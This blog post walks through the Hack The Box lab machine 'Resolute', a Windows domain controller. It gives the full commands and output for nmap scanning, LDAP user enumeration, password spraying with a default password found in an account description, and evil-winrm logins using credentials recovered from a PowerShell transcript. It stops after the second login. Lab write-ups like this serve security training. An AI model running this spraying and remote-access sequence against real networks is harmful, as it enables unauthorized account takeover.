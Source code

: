 ```yaml
---
layout: post
title:  "HTB - RESOLUTE"
date:   2025-02-05 20:52:24 +0100
categories: ["HTB Machine writeups"]
---
```

As usually starting with nmap 

```text
nmap 10.10.10.169 -sV -A -Pn   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-05 18:33 CET
Nmap scan report for 10.10.10.169
Host is up (0.060s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-02-05 17:42:23Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/5%OT=53%CT=1%CU=42741%PV=Y%DS=2%DC=T%G=Y%TM=67A3A
OS:177%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S%T
OS:S=A)SEQ(SP=FF%GCD=1%ISR=105%TI=I%CI=I%II=I%SS=S%TS=A)SEQ(SP=FF%GCD=1%ISR
OS:=106%TI=RD%CI=I%II=I%TS=C)OPS(O1=M53CNW8ST11%O2=M53CNW8ST11%O3=M53CNW8NN
OS:T11%O4=M53CNW8ST11%O5=M53CNW8ST11%O6=M53CST11)WIN(W1=2000%W2=2000%W3=200
OS:0%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M53CNW8NNS%CC=Y%Q=)
OS:T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=
OS:0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T
OS:6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=1
OS:64%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m00s, deviation: 4h37m09s, median: 6m59s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2025-02-05T09:42:42-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2025-02-05T17:42:41
|_  start_date: 2025-02-05T17:29:28
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   73.59 ms 10.10.14.1
2   73.68 ms 10.10.10.169

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.11 seconds
```

We have destinguished name for domain so lets see if we can get usernames 

```text
ldapsearch -H ldap://10.10.10.169 -x -b "DC=megabank,DC=local" '(ObjectClass=Person)' sAMAccountName | grep sAMAccountName
```

```
sAMAccountName: Guest
sAMAccountName: DefaultAccount
sAMAccountName: RESOLUTE$
sAMAccountName: MS02$
sAMAccountName: ryan
sAMAccountName: marko
sAMAccountName: sunita
sAMAccountName: abigail
sAMAccountName: marcus
sAMAccountName: sally
sAMAccountName: fred
sAMAccountName: angela
sAMAccountName: felicia
sAMAccountName: gustavo
sAMAccountName: ulf
sAMAccountName: stevie
sAMAccountName: claire
sAMAccountName: paulo
sAMAccountName: steve
sAMAccountName: annette
sAMAccountName: annika
sAMAccountName: per
sAMAccountName: claude
sAMAccountName: melanie
sAMAccountName: zach
sAMAccountName: simon
sAMAccountName: naoki
```

Let's enum deeper on descriptions 

```
description: Account created. Password set to Welcome123!   
```

So we have our password. But it appears to be default one, so we need to check if it fits for any usernames we already have. 

```text
netexec smb 10.10.10.169 -u logins_resolute -p 'Welcome123!'
```

```text
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Guest:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\RESOLUTE$:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\MS02$:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ryan:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
```

Now we know that password fits to melanie user and we can WinRM to it.

```text
evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'
```

Once i started enumerating - this part got tricky because i couldn't find anything interesting so i used the hint from guided mode 

```text
What is the full path to the file containing history logs for a PowerShell session?
```

And for me obviously this was about:
`%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

which is default path i check during forensic investigations related to used powershell commands.
Wowever that path was not present on melanie user. Finally i found that it was related to hidden file under path

```text
C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

Not sure if this directory/file is something real or just made up as synthetic way of making it more difficult.

Upon review we can find that file contains new set of credentials for Ryan user so we can login again with another set of credentials 

```text
evil-winrm -i 10.10.10.169 -u 'ryan' -p 'Serv3r4Admin4cc123!'
```

![img-description](/assets/img/resolute_ryan.png)
_WinRM to Ryan_


